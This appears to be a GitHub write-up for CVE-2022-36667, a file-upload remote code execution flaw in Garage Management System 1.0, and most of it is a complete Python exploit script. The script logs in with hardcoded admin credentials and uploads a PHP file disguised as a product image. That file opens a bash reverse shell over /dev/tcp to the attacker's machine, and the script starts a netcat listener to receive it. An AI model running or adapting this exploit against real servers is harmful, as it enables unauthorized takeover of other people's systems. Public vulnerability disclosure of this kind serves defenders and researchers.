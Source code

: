 # CVE-2022-36667
Writeup for [PacketStorm](https://packetstormsecurity.com/files/167802/Garage-Management-System-1.0-Shell-Upload.html)

## Garage Management System Remote Code Execution (RCE) via File Upload

<p># Date: 24/07/2022

<p># Exploit Author: saitamang

<!-- <p># Vendor Homepage: https://www.sourcecodester.com

<p># Software Link: https://www.sourcecodester.com/sites/default/files/download/mayuri_k/garage.zip -->

<p># Version: 1.0

<p># Tested on: Centos 7 + MySQL

<br>The automation script can be downloaded [here](https://github.com/saitamang/POC-DUMP/blob/main/Garage%20Management%20System/rce.py)

<code>
import requests, subprocess, string, sys, warnings, time, concurrent.futures
from requests.packages.urllib3.exceptions import InsecureRequestWarning
warnings.simplefilter('ignore',InsecureRequestWarning)
from netifaces import interfaces, ifaddresses, AF_INET

req = requests.Session()

proxies = {
    'http':'http://127.0.0.1:8080', 
    'https':'http://127.0.0.1:8080',
    }

def login(ip,username,password):  
    target = "http://%s/garage/garage/login.php" %ip
    data = {'username':username,'password':password, 'login':''}
    response = req.post(target, data=data)

    if 'Login Successfully' in response.text:
        print("[$] Success Login :)")
        trigger_rce(req)
    else:
        print("[$] Failed Login :(")

def creata_rs():
    for ifaceName in interfaces():
        addresses = [i['addr'] for i in ifaddresses(ifaceName).setdefault(AF_INET, [{'addr':'No IP addr'}] )]
        if ifaceName=="eth0":
            ipadd = ' '.join(addresses)
            f = open("saitamang.php", "w")
            payload = "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+str(ipadd)+"/1234 0>&1'\")?>"
            f.write(payload)
            f.close()
        else:
            pass

def trigger_rce(req):
    creata_rs()
    target = "http://%s/garage/garage/php_action/createProduct.php" %ip

    multipart_form_data = {
    "currnt_date": (None,""),
    "productImage": ("saitamang.php", open("saitamang.php", "rb")),
    "productName" : (None,"test"),
    "quantity" : (None,"1"),
    "rate" : (None,"1"),
    "brandName" : (None,"1"),
    "categoryName" : (None,"1"),
    "productStatus" : (None,"1"),
    "create" : (None,"")
    }

    response = req.post(target, files=multipart_form_data)

    print("[$] Enjoy your RCE :)")
    req.get("http://%s/garage/garage/assets/myimages/saitamang.php" %ip)


if __name__ == "__main__":
    print("   _____       _ __                                   ")
    print("  / ___/____ _(_) /_____ _____ ___  ____ _____  ____ _")
    print("  \__ \/ __ `/ / __/ __ `/ __ `__ \/ __ `/ __ \/ __ `/")
    print(" ___/ / /_/ / / /_/ /_/ / / / / / / /_/ / / / / /_/ / ")
    print("/____/\__,_/_/\__/\__,_/_/ /_/ /_/\__,_/_/ /_/\__, /  ")
    print("                                             /____/   \n\n")
    
    try:
        ip = sys.argv[1].strip()

        username = "mayuri.infospace@gmail.com"
        password = "rootadmin"

        subprocess.call(['terminator', '-e', 'nc -lvp 1234'])
        time.sleep(2)
        login(ip,username,password)
        
    except IndexError:
        print("[-] Usage %s <ip>" % sys.argv[0])
        print("[-] Example: %s 192.168.100.x" % sys.argv[0])
    sys.exit(-1)
</code>

